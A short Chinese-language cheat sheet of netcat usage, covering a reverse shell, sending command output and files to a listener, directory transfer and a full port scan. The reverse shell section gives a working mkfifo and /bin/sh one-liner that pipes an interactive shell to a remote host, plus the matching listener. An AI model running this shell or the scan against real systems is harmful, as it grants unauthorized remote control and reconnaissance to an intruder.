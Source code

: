 > 因为版本不同，有的版本没有 -e -c 选项，解决： https://superuser.com/questions/691008/why-is-the-e-option-missing-from-netcat-openbsd

> 来源：https://www.jianshu.com/p/cb26a0f6c622

# 远程控制（反向shell）
引入：
- -l: 监听入站信息
- -v: 详细信息
- -p: 本地端口

被控制端：  
`rm -f /tmp/f; mkfifo /tmp/f`  
`cat /tmp/f | /bin/sh -i 2>&1 | nc ×××××× 1234 > /tmp/f`

控制端：
`nc -lvp 1234`

# 使用NC进行信息收集
引入：
- -n 禁止名称/端口解析
- -q quit after EOF on stdin and delay of secs
> 场景1

监听指定端口号：`nc -l -p port`  
连接对方tcp端口：`nc -nv ip port`  
ps:默认情况下，双方可以发送文本信息
> 场景2

将远程发送过来的内容保存在本地：`nc -l -p 4444 >wing.txt`  
标准输入完成后delay一秒钟，会发送到侦听端：`ps aux |nc -nv ip port -q 1`


# NC传输文件/目录

- 场景1  
存储文件：`nc -lp 4444 >1.txt`  
读取文件：`nc -nv ip port <1.txt -q 1`

`ps`：侦听端的文件名最好按照文件本身来命名

- 场景2

将目录打包：`tar -cvf - 目录名/|nc -lp port -q 1`

将目录解包：`nc -nv ip port |tar -xvf -`

# NC端口扫描 

nc -nvz ip 1-65535